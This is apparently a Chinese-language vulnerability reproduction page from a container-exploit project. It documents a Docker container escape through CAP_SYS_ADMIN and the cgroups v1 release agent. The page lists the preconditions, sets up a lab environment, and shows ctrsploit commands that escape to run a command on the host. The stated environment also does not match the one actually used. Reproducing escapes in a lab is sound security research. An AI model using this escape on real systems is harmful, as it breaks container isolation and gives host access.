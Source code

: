 ```yaml
---

tags: sploit
author: ssst0n3
spec_version: v0.1.0
version: v0.1.0
changelog:
    - v0.1.0: init

---
```


# docker CAP_SYS_ADMIN cgroups v1 release agent 逃逸 

[edit](https://github.com/ctrsploit/sploit-spec/edit/main/vul.md)

## 1. 漏洞介绍

TODO

## 2. 利用场景

利用容器的不安全配置逃逸

## 3. 前提条件

1. 拥有cap_sys_admin
2. 容器内root
3. cgroups版本为v1
4. cgroups拥有top level subsystem
5. 允许执行mount系统调用(例如未开启 seccomp 和 selinux/apparmor)

## 4. 漏洞存在性检查

`ctrsploit checksec cap_sys_admin`

## 5. 漏洞复现

### 5.1 复现环境

下面以 [ssst0n3/docker_archive:ubuntu-22.04_docker-ce-24.0.7_containerd.io-1.6.27_runc-1.1.11_v0.1.0](https://github.com/ssst0n3/docker_archive/tree/branch_ubuntu-22.04_docker-ce-24.0.7_containerd.io-1.6.27_runc-1.1.11) 作为复现环境。

```
$ git clone https://github.com/ssst0n3/docker_archive.git
$ cd docker_archive
$ git checkout branch_ubuntu-20.04_docker-ce-19.03.15_docker-ce-cli-19.03.15_containerd.io-1.4.3_runc-1.0.0-rc92
$ docker compose -f docker-compose.kvm.yml up -d
$ ssh -p 19315 root@127.0.0.1
root@127.0.0.1's password: root
root@ubuntu:~# docker info
Client:
 Debug Mode: false

Server:
 Containers: 0
  Running: 0
  Paused: 0
  Stopped: 0
 Images: 0
 Server Version: 19.03.15
 Storage Driver: overlay2
  Backing Filesystem: extfs
  Supports d_type: true
  Native Overlay Diff: true
 Logging Driver: json-file
 Cgroup Driver: cgroupfs
 Plugins:
  Volume: local
  Network: bridge host ipvlan macvlan null overlay
  Log: awslogs fluentd gcplogs gelf journald json-file local logentries splunk syslog
 Swarm: inactive
 Runtimes: runc
 Default Runtime: runc
 Init Binary: docker-init
 containerd version: 269548fa27e0089a8b8278fc4fc781d7f65a939b
 runc version: ff819c7e9184c13b7c2607fe6c30ae19403a7aff
 init version: fec3683
 Security Options:
  apparmor
  seccomp
   Profile: default
 Kernel Version: 5.4.0-56-generic
 Operating System: Ubuntu 20.04.1 LTS
 OSType: linux
 Architecture: x86_64
 CPUs: 2
 Total Memory: 2.43GiB
 Name: ubuntu
 ID: 4X4W:QE26:IMGY:UHI5:QPCY:NDI5:KKFJ:YWUO:RNOC:QJKR:OHOQ:TXVR
 Docker Root Dir: /var/lib/docker
 Debug Mode: false
 Registry: https://index.docker.io/v1/
 Labels:
 Experimental: false
 Insecure Registries:
  127.0.0.0/8
 Live Restore Enabled: false

WARNING: No swap limit support
```

### 5.2 漏洞复现

启动存在不安全配置的容器。

```
root@ubuntu:~# docker run -ti --name poc --cap-add CAP_SYS_ADMIN --security-opt apparmor=unconfined ubuntu
```

下载 ctrsploit 步骤略，在容器内发起逃逸攻击。

```
root@e33b98bef3c3:/# ctrsploit --colorful checksec sys_admin
✔  cap_sys_admin	# Container can be escaped when has cap_sys_admin and use cgroups v1

root@e33b98bef3c3:/# ctrsploit exploit ra -c "cat /etc/hostname"
INFO[0000] Execute command: cat /etc/hostname           
INFO[0001] 
===========start of result==============
ubuntu
===========end of result==============
```

